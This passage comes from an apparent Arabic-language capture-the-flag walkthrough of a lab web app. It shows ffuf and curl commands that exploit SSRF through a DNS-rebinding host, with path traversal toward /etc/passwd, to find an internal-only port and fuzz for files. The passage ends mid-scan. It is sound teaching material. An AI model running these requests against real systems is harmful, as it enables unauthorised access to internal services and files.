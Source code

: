 ```bash
$ ffuf -u http://10.10.32.94:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:FUZZ/../../../etc/passwd" -H "Content-Type: application/x-www-form-urlencoded" -w ports -fs 290

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.32.94:8080/view_image
 :: Wordlist         : FUZZ: /home/vulner/thm/londonbridge/ports
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : www=http://00000000.7f000001.rbndr.us:FUZZ/../../../etc/passwd
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 290
________________________________________________

80                      [Status: 200, Size: 469, Words: 96, Lines: 15, Duration: 334ms]
``` 
الواضح أن عندنا خدمة على مدخل 80 غير متاحة إلا بشكل محلي، عشان كذا يوم فحصنا المداخل ما طلعت معنا في النتائج. قبل ما نبحث عن ملفات خلينا نشوف رد السيرفر على طلب ffuf:
```bash
$ curl http://10.10.32.94:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:80/../../../etc/passwd" 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 404</p>
        <p>Message: File not found.</p>
        <p>Error code explanation: HTTPStatus.NOT_FOUND - Nothing matches the given URI.</p>
    </body>
</html>
```
خلينا نستخدم ffuf ونبحث عن ملفات في النظام:
```bash
ffuf -u http://10.10.32.94:8080/view_image -d "www=http://00000000.7f000001.rbndr.us:80/FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -w /usr/share/seclists/Discovery/Web-Content/big.txt -fs 469

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

```